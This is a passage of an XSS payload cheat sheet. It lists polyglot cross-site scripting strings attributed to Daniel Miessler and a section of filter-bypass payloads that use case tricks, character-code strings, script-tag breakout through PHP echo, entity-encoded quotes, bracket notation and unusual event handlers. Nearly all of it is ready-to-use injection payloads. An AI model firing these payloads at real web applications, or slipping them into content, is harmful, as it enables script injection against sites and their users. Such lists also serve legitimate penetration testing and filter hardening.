 Polyglot XSS - Daniel Miessler
```
javascript://'/</title></style></textarea></script>--><p" onclick=alert()//>*/alert()/*
javascript://--></script></title></style>"/</textarea>*/<alert()/*' onclick=alert()//>a
javascript://</title>"/</script></style></textarea/-->*/<alert()/*' onclick=alert()//>/
javascript://</title></style></textarea>--></script><a"//' onclick=alert()//>*/alert()/*
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
```


## Filter Bypass and exotic payloads

Bypass case sensitive
```
<sCrIpt>alert(1)</ScRipt>
```

Bypass quotes for string
```
String.fromCharCode(88,83,83)
```

Bypass quotes in script tag
```
http://localhost/bla.php?test=</script><script>alert(1)</script>
<html>
  <script>
    <?php echo 'foo="text '.$_GET['test'].'";';`?>
  </script>
</html>
```

Bypass quotes in mousedown event
```
<a href="" onmousedown="var name = '&#39;;alert(1)//'; alert('smthg')">Link</a>

You can bypass a single quote with &#39; in an on mousedown event handler
```

Bypass dot filter
```
<script>window['alert'](document['domain'])<script>
```

Bypass parenthesis for string - Firefox
```
alert`1`
```

Bypass onxxxx= blacklist
```
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>
```
